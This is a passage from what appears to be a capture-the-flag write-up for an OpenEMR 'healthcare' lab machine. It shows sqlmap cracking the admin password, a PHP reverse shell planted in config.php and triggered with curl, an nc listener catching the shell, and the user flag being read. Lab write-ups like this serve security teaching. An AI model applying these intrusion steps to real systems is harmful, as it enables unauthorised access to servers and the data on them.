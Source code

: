 `sqlmap` really helps here and is even able to brute force the password hashes. Valid credentials are found for the `admin` account: `admin:ackbar`.

I tried using an authenticated RCE exploit from exploit-db but it did not work despite the "payload executed" message. Let's try something else.

From the OpenEMR admin panel, we can modify the PHP code of pages. Go to `Administration > Files` and select `config.php` from the dropdown. Modify the content with the one from a PHP reverse shell.

Now browse the resource:

~~~
$ curl http://healthcare.box/openemr/sites/default/config.php
~~~

A reverse shell will be spawned in our listener window:

~~~
kali@kali:/data/healthcare$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.141] 56537
Linux localhost.localdomain 2.6.38.8-pclos3.bfs #1 SMP PREEMPT Fri Jul 8 18:01:30 CDT 2011 i686 i686 i386 GNU/Linux
 07:41:23 up  1:47,  0 users,  load average: 1.00, 1.00, 1.02
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=479(apache) gid=416(apache) groups=416(apache)
sh: no job control in this shell
bash-4.1$ cd /home
cd /home
bash-4.1$ ls -la
ls -la
total 20
drwxr-xr-x  5 root     root     4096 Jul 29 04:46 .
drwxr-xr-x 21 root     root     4096 Sep 24 05:54 ..
drwxr-xr-x 27 almirant almirant 4096 Jul 29 12:37 almirant
drwxr-xr-x 31 medical  medical  4096 Nov  5  2011 medical
drwxr-xr-x  3 root     root     4096 Nov  4  2011 mysql
~~~

## User flag

The user flag is located in `almirant`'s home folder:

~~~
bash-4.1$ cat /home/almirant/user.txt
cat /home/almirant/user.txt
d41d8cd98f00b204e9800998ecf8427e
~~~

User flag: `d41d8cd98f00b204e9800998ecf8427e`


# Root flag

## Lateral move (apache -> medical)
